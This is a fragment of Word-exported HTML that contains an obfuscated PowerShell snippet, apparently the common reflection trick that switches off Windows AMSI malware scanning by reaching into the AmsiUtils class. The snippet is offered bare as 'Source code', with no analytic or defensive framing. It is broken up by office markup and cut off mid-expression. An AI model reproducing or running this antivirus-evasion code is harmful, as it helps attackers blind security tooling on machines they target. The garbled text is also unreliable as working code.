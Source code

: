<p class=MsoNormal><span class=SpellE>S`eT-It`em</span> ( 'V'+'<span
class=SpellE>aR</span>' +<span style='mso-spacerun:yes'>  </span>'IA' +
((&quot;{1}{0}&quot;-f'1','blE:')+'q2')<span style='mso-spacerun:yes'> 
</span>+ ('<span class=SpellE>uZ</span>'+'x')<span style='mso-spacerun:yes'> 
</span>) ( [<span class=SpellE>TYpE</span>](<span style='mso-spacerun:yes'> 
</span>&quot;{1}{0}&quot;-F'F','<span class=SpellE>rE</span>'<span
style='mso-spacerun:yes'>  </span>) )<span style='mso-spacerun:yes'> 
</span>;<span style='mso-spacerun:yes'>    </span>(<span
style='mso-spacerun:yes'>    </span>Get-<span class=SpellE>varI`A`BLE</span><span
style='mso-spacerun:yes'>  </span>( ('1Q'+'2U')<span style='mso-spacerun:yes'> 
</span>+'<span class=SpellE>zX</span>'<span style='mso-spacerun:yes'> 
</span>)<span style='mso-spacerun:yes'>  </span>-<span class=SpellE>VaL</span><span
style='mso-spacerun:yes'>  </span>).&quot;A`ss`Embly&quot;.&quot;<span
class=SpellE>GET`TY`Pe</span>&quot;((<span style='mso-spacerun:yes'> 
</span>&quot;{6}{3}{1}{4}{2}{0}{5}&quot; -f('<span class=SpellE>Uti'+'l</span>'),'A',('Am'+'<span
class=SpellE>si</span>'),((&quot;{0}{1}&quot; -f '.<span class=SpellE>M','an</span>')+'<span
